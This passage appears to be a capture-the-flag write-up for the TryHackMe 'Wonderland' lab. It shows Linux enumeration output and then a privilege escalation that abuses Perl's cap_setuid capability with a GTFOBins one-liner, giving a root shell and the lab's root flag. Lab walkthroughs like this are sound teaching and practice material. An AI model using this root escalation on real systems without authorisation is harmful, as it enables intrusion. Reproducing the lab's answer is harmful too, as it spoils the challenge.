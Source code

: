 ```text
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.4 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
[-] Hostname:
wonderland

### USER/GROUP ##########################################
[-] Current user/group info:
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
[-] Users that have previously logged onto the system:
Username         Port     From             Latest
tryhackme        pts/0    10.8.6.110       Fri Jun  5 22:28:57 +0000 2020
alice            pts/1    192.168.170.1    Mon May 25 16:37:21 +0000 2020
hatter           pts/0    10.9.17.195      Sat Jun  6 16:55:03 +0000 2020
[-] Who else is logged on:
 16:58:23 up 5 min,  1 user,  load average: 1.46, 1.72, 0.84
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
hatter   pts/0    10.9.17.195      16:55    7.00s  0.74s  0.08s w

<<SNIP>>

e [+] Files with POSIX capabilities set:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Capabilities is a well known attack vector. [GTFOBins](https://gtfobins.github.io/gtfobins/) has lots of really good information about the many UNIX/Linux binaries that can be abused. [This](https://gtfobins.github.io/gtfobins/perl) section talks about Perl and what you can do with CAP_SETUID being set.

From that article iI took this command:

```text
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

Here we run it on the box to get root, and finally the flag:

```text
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)

# cat /home/alice/root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```

All done. See you next time.
